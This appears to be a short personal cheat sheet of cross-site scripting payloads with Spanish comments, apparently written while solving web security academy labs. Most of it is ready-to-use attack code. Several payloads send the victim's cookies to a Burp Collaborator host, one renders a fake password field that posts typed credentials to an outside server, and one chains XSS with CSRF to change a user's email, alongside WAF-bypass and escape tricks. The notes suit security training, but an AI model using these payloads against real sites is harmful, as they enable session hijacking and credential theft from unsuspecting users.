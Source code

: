```js
//Todo codeado a url excepto el ' que está dentro de parentesis (sin parentesis claro) tiramos un scan selected insertion point y nos retorno el xss stored de la cookie, que fue la que seleccionamos y le hicimos el scan. 
(')"><svg/onload=fetch(`//BURP-COLLABORATOR\.oastify.com?c=${document.cookie}`)>

'%22%3E%3Csvg%2Fonload%3Dfetch%28%60%2F%2Frhc2glih6cztxui4wzfa76i1ws2jqnec%5C.oastify.com%3Fc%3D%24%7Bdocument.cookie%7D%60%29%3E
```

> JSON strings escape XSS on eval javascript function with double quotes html encoded

```js
\"+alert(1)}//
```

> XSS + CSRF

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### 1. XSS Reflected: 

```js
//SearchTerm 
?searchterm="-alert(1)-" o ?searchterm=%22-alert(1)-%22


//LAB: en contexto HTML sin nada codificado
?search=<script>alert(”Prueba Xss JF0x0r”)</script>

//LAB: XSS para robar cookies
//store & deliver exploit to victim
<script> var i = new Image(); i.src="http://BURP-COLLAB/cookies.php?result="+document.cookie; </script>

//LAB: Capturar contraseñas
//para este caso, podemos tirar este payload en la seccion de comentar, de un post.
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLAB.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">

//LAB: en contexto HTML con tags Blocked by WAF BYPASS
//deliver exploit to victim
<iframe src="https://LAB-ID.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>

//LAB: XSS tags blocked except tags customized - ?search=PAYLOAD
//store & deliver exploit to victim
// --> <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
<script>
```
